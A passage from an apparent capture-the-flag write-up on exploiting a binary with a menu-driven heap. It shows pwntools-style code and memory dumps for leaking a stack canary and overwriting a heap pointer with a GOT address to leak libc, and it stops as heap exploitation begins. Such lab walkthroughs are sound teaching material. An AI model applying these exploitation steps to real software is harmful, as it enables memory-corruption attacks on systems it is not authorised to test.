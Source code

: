 We can use the same allocation tactic as we did with the stack leak in order to leak the canary.

```python
alloc('A'*0x28, "yes\x00")
	
canary = canaryLeak()
log.success("Canary: 0x{:x}".format(canary))
```

```
buf --> 0x7fffffffe480:	0x4141414141414141	0x4141414141414141
        0x7fffffffe490:	0x4141414141414141	0x4141414141414141
        0x7fffffffe4a0:	0x4141414141414141	0x1dc8d418ac21e70a <-- canary
```

Stack and canary leak done. If we choose to tap out, we're asked to enter either `yes` or `no`. However, the amount of data being
read is big enough to overwrite the heap pointer on the stack. In particular, the `ptr` member is stored at offset `rbp - 0x10`,
which is just **0x18 bytes ahead** of the of the `buf` member and `read` will read in **0x30** bytes. 

```asm
mov rax, qword [rbp-0x28]
mov edx, 0x30
mov rsi, rax
mov edi, 0x0
call read
```

If we were to overwrite that pointer with a GOT address and then select `show`, we will get back a libc leak.

```python
gup('no\x00'.ljust(0x18, '\x00') + p64(GOT))	
libc     = libcLeak() - 0x36ea0
```

```
Before:

0x7fffffffe480:	0x4141414141414141	0x4141414141414141
0x7fffffffe490:	0x4141414141414141	0x0000000000603040 <-- heap ptr
0x7fffffffe4a0:	0x4141414141414141	0x1dc8d418ac21e70a
```

```
After:

0x7fffffffe480:	0x0000000000006f6e	0x0000000000000000
0x7fffffffe490:	0x0000000000000000	0x0000000000601fe0 <-- GOT address
0x7fffffffe4a0:	0x414141414141410a	0x1dc8d418ac21e70a
```

This was the easy part. Now it's time for the heap stuff. The fact that we have control over **what** gets free'd can be pretty
lethal. Let's think of our findings so far:
